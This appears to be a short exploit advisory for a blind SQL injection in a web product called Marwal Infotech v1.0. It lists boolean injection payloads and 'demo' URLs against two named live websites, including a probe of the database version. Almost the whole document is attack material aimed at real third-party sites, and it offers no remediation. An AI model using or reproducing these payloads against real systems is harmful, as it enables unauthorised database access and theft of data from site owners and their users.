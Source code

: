 ## Marwal Infotech - Blind Sql Injection Vulnerability

#### vender:https://marwalinfotech.com/

#### Software:Marwal Infotech v1.0

- Category:webapps
- Tested On: mac, Firefox
- [+] First add "and true" and then "and false" to the end of the link :

* Target.com/index.php?lang=1 true
* Target.com/index.php?lang=1 false

### Demo 1:
* https://www.tagorettcollege.com/page.php?id=23%20and%20true--
* https://www.tagorettcollege.com/page.php?id=23%20and%20false--
* https://www.tagorettcollege.com/page.php?id=23%20and%20substring(@@version,1,1)=1--
### Demo 2:
* https://www.gpsgotan.co.in/page.php?id=61%20and%20true--
* https://www.gpsgotan.co.in/page.php?id=61%20and%20false--
* https://www.gpsgotan.co.in/page.php?id=61%20and%20substring(@@version,1,1)=1--